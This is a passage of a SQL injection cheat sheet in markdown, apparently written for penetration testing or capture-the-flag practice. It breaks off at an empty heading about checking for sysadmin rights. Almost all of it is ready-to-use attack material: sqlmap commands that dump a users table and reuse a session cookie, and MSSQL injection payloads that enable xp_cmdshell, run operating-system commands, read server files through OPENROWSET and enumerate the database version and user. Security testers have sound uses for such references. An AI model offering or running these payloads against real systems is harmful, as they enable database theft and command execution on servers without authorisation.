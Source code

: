 ## Dump specific table with sqlmap

```bash
sqlmap -u http://$IP/page.php?id=1 -D database_name -T users --dump --batch
```

## Use sqlmap with authentication cookie

```bash
sqlmap -u http://$IP/page.php?id=1 --cookie="PHPSESSID=abcd1234" --batch
```

## Test for SQL injection in MSSQL

```
' WAITFOR DELAY '00:00:05'--
```

## Enable xp_cmdshell in MSSQL

```
' EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;--
```

## Execute command using xp_cmdshell

```
' EXEC xp_cmdshell 'whoami'--
```

## Read file in MSSQL using OPENROWSET

```
' UNION SELECT 1,BulkColumn,3 FROM OPENROWSET(BULK 'C:\Windows\System32\drivers\etc\hosts',SINGLE_CLOB) AS x--
```

## Enumerate MSSQL version

```
' UNION SELECT 1,@@version,3--
```

## Enumerate current MSSQL user

```
' UNION SELECT 1,SYSTEM_USER,3--
' UNION SELECT 1,USER_NAME(),3--
```

## Check if MSSQL user is sysadmin
